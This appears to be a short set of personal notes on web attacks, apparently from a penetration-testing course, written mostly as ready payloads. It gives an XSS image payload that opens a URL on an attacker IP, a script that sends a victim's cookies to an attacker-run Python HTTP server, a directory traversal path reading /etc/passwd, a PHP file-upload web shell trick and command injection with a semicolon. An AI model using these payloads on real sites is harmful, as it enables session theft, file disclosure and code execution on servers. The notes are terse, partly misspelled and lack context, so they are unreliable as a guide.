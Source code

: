 ```
Only requires user to visit page
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
```
# Useful JavaScript Components
```
Proof of concept (simple alert):
<script>alert('XSS');</script>

Capturing Cookies
 document.cookie

Capturing Keystrokes
 bind keydown and keyup

Capturing Sensitive Data
 document.body.innerHTML
```
# command to compromise web page (in a chat bar or something of the sort)
```
python3 -m http.server
<script/>document.location="http://10.50.27.207:8000/"+documnet.cookie;</script>
```
# Server-Side injection
```
  Directory Traversal/Path Traversal
Ability to read/execute outside web server’s directory
Uses ../../ (relative paths) in manipulating a server-side file path

view_image.php?file=../../etc/passwd
```
# fle locations for linux
```
/etc/passwd + /etc/hosts
```
# Malicious File Upload
```
  Site allows unsanitized file uploads

Server doesn’t validate extension or size
Allows for code execution (shell)
Once uploaded
 Find your file
 Call your file
place to upload, call file, location where its uploaded to
```
run image.png.php
# on the website commands from the script
whoami
pwd
# Command injection
; [command line] will overwrite there script they have
/var/www/html for home directory of apache